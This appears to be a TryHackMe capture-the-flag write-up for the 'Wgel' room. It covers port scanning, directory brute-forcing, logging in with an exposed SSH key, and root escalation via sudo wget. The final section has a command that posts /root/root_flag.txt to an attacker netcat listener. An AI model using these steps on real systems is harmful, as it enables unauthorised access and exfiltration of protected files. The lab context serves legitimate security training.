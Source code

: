 ```yaml
---
layout: post
title: "☁️ TryHackMe - WGEL CTF"
date: 2025-07-24 10:00:00 +0200
categories: [Writeups]
tags: [ctf, tryhackme, pentest, easy]
image: https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png
pin: false
toc: true
comments: true
---
```


<div style="text-align: center;">
  <img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png" alt="WGEL CTF" width="300">
</div>


## Introduction

| Description                       | Category                       | Level | Link                               |
| --------------------------------- | ------------------------------ | ----- | ---------------------------------- |
| Can you exfiltrate the root flag? | Enumeration, web, ssh, privesc | Easy  | https://tryhackme.com/room/wgelctf |


> Have fun with this easy box.
{: .prompt-info }

<br>

## 👨‍💼 User\_flag

First reflex when I start a CTF, I always start network scan on the target with \*\*nmap \*\*. This allows me to see all the active services on the target, this will allow me to infiltrate it.

```bash
nmap -p- -A 10.10.57.163
```

| OPTIONS | Description                                |
| ------- | ------------------------------------------ |
| `-p-`   | Scan ports from 1 through 65535 (all)      |
| `-A`    | Detection of OS and software versions used |

<br>

![screen 1](https://cdn.hashnode.com/res/hashnode/image/upload/v1667829270280/S72YGl_jJ.png)

I see that an Apache server is running on port 80, from my browser we can see the default page.

![screen 2](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835292581/aJa5T-a8t.png)

After checking the source code, we can identify a potential user --&gt; **Jessie** Let's put it aside, it will interest us for the continuation

> **Note:** It is essential to take notes on all information, loot found during the CTF.
{: .prompt-tip }


![screen 3](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835611781/YgLwravJ3.png )

I will now run an enumeration on the web page to list all hidden directories/files I use \*\*FerroxBuster \*\*which is nicer but a \*\*dirb \*\*will do very well

```bash
└─$ feroxbuster -u http://10.10.57.163 -w /usr/share/wordlists/dirb/common.txt
```

| OPTIONS | Description          |
| ------- | -------------------- |
| `-u`    | The target URL       |
| `-w`    | Path to the wordlist |

![screen 4](https://cdn.hashnode.com/res/hashnode/image/upload/v1667836117801/jHHRzm1OT.png )

We found a hidden page that matches `http://10.10.57.163/sitemap/.ssh/`

Let's see what's there, HOOO surprise a ssh key

![screen 5](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838342755/XF4Xxtxji.png)

Download the ssh key and change the rights on it with chmod

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ wget http://10.10.57.163/sitemap/.ssh/id_rsa
--2022-11-07 17:10:46--  http://10.10.57.163/sitemap/.ssh/id_rsa
Connexion à 10.10.57.163:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa.1 »

id_rsa.1       100%[=======================>]   1,64K  --.-KB/s    ds 0s      

2022-11-07 17:10:46 (198 MB/s) — « id_rsa.1 » sauvegardé [1675/1675]

┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ chmod 600 id_rsa
```

> After downloading a private SSH key (`id_rsa`), you **must** restrict its permissions<br>
> The `chmod 600 id_rsa` command gives **read and write permissions only to the owner** `6` :<br>
> read `4` + write `2`, and **no permissions** to group or others `0`
{: .prompt-warning }


Ok now, let's try to connect with ssh

```bash
ssh -i id_rsa jessie@10.10.57.163
```

| OPTIONS  | Description                                                                                |
| -------- | ------------------------------------------------------------------------------------------ |
| `-i`     | Selects a file from which the identity (private key) for RSA or DSA authentication is read |
| `jessie` | Remember this is the user found on the source code of the default web page                 |


![screen 6](https://cdn.hashnode.com/res/hashnode/image/upload/v1667837733101/IWr-vmnH9.png)

Let's find the flag from Jessie's account

![screen 7](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838734846/4yNYdftHHt.png)

First objective achieved, we now have the user flag, let's go to the root flag

<br>

## 💀 Root\_flag

Once connected as a user, my next goal is to increase my privileges, let's check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
```
> `-l` (as in “list”) = displays the list of sudo privileges for the current user
{: .prompt-info }


![screen 8](https://cdn.hashnode.com/res/hashnode/image/upload/v1667839805405/e-jImgSH6.png)

We can see that wget is executable as root without password.

Let's go to [GTFOBins WGEL](https://gtfobins.github.io/gtfobins/wget/)



Let's launch our listener from the attacking machine in order to get the content of the file we are interested in (root\_flag.txt) and execute the wget command from the target

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ nc -lvnp 9001
_________________________________________________________

jessie@CorpOne:~$ sudo -u root /usr/bin/wget --post-file=/root/root_flag.txt 10.9.13.192:9001
```

![screen 9](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840461095/op7kMZ4Lt.png)

![screen 10](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840594374/rxFUnq4oS.png)

🏁 We have now obtained our last root flag. I hope you enjoyed this first CTF write-up, feel free to share it.


> 🛠 All documentation for tools mentioned or used :<br>
> nmap <https://nmap.org/book/man.html><br>
> Ferroxbuster <https://epi052.github.io/feroxbuster-docs/docs/><br>
> dirb <https://www.kali.org/tools/dirb/><br>
> ssh <https://www.kali.org/tools/openssh/><br>
> sudo <https://www.kali.org/tools/sudo/>
{: .prompt-info }